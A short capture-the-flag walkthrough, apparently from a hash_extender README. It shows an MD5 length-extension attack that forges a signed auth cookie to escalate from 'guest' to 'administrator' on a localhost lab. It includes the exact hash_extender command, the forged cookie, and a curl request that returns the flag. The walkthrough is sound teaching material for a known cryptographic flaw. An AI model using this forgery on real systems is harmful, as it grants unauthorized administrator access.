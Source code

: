 Go to the site and log in; you'll get a cookie set such as:

    auth=e4d689c098b13d8da9a211417dba116a|username=guest&date=2017-01-28T17:12:33-0800&secret_length=8&

Put that cookie's signature and value into hash_extender to add &username=administrator:

    $ ./hash_extender -d 'username=guest&date=2017-01-28T17:12:33-0800&secret_length=8&' -s 'e4d689c098b13d8da9a211417dba116a' -a '&username=administrator' -f md5 -l 8 --out-data-format html
    Type: md5
    Secret length: 8
    New signature: 20b2b9797bfaead8e204af5466ebced7
    New string: username%3dguest%26date%3d2017%2d01%2d28T17%3a12%3a33%2d0800%26secret%5flength%3d8%26%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%28%02%00%00%00%00%00%00%26username%3dadministrator

Send it with curl:

    $ curl -H 'Cookie: auth=20b2b9797bfaead8e204af5466ebced7%7Cusername%3dguest%26date%3d2017%2d01%2d28T17%3a12%3a33%2d0800%26secret%5flength%3d8%26%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%28%02%00%00%00%00%00%00%26username%3dadministrator' http://localhost/index.php
    <h1>Welcome back, administrator!</h1>
    <p>Congratulations, you're the administrator! Here's your reward:</p>
    <p>FLAG:180e2300112ef5a4f23c93cfdec8d780</p>
    <p><a href='/index.php?action=logout'>Log out</a></p>

And that's it!
